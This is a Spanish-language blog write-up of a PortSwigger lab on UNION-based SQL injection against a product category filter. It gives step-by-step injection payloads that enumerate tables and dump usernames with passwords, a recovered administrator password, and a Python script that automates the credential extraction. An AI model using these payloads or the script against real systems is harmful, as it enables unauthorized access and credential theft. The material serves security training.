 ```yaml
---
title: "06 SQL injection UNION attack, retrieving multiple values in a single column"
collection: publications
category: portswigger
permalink: /publications/SQLi/06_SQL injection UNION attack, retrieving multiple values in a single column
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION que recupera los nombres de usuario y las contraseñas de los usuarios de la aplicación en una única columna.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection UNION attack, retrieving multiple values in a single column'
---
```


![logo]({{site.url}}/images/SQLi/sqli-6/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-6/descripcion.png)

## Objetivo del laboratorio

Realizar un ataque UNION de inyección SQL que recupere todos los nombres de usuario y contraseñas, y utilice la información para iniciar sesión como usuario `administrator`.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-6/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

![Order by]({{site.url}}/images/SQLi/sqli-6/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String'

```javascript
' UNION SELECT 'A', NULL--   -> Error
' UNION SELECT NULL, 'A'--   -> Correcta
```

![String]({{site.url}}/images/SQLi/sqli-6/tipo string.png)

## Obtener que tipo de Base de dato es:

Es una BD Postgres SQL, en esta ocación realizamos la insercion en la segunda columna ya que es inyectable

```javascript
' UNION SELECT NULL, version()--
```

![Base de datos]({{site.url}}/images/SQLi/sqli-6/version bd.png)

![Base de datos]({{site.url}}/images/SQLi/sqli-5/BD.png)

## Obtener el nombre de las tablas

Ya que conocemos el tipo de BD, debemos listar el nombre de las tablas.

```javascript
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema='public'--
```

![Tablas]({{site.url}}/images/SQLi/sqli-6/tablas.png)

## Listamos las columnas

```javascript
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users'--
```

![Columnas de la tabla]({{site.url}}/images/SQLi/sqli-6/columnas de la tabla.png)

## Listar username y password
Ya que conocemos las columnas de la tabla, debemos listarla. En esta ocación unimos en una sola columna

```javascript
' UNION SELECT NULL,username || '*****' || password FROM users--
```

![Usuarios Passwords]({{site.url}}/images/SQLi/sqli-6/listado usuario y password.png)

## Procedemos a hacer el login

```
administrator
1xezeeiddf3uw560r9m0
```

![login]({{site.url}}/images/SQLi/sqli-6/login.png)

## Solucionado

Solventado el laboratorio

![Aprobado]({{site.url}}/images/SQLi/sqli-6/aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli_users_table(url):
    username = 'administrator'
    path = '/filter?category=Pets'
    sql_payload = "' UNION select NULL, username || '*' || password from users--"
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    res = r.text
    if "administrator" in res:
        print("[+] Found the administrator password...")
        soup = BeautifulSoup(r.text, 'html.parser')
        admin_password = soup.find(text=re.compile('.*administrator.*')).split("*")[1]
        print("[+] The administrator password is '%s'." % admin_password)
        return True
    return False



if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    print("[+] Dumping the list of usernames and passwords...")
    if not exploit_sqli_users_table(url):
        print("[-] Did not find an administrator password.")
    
```

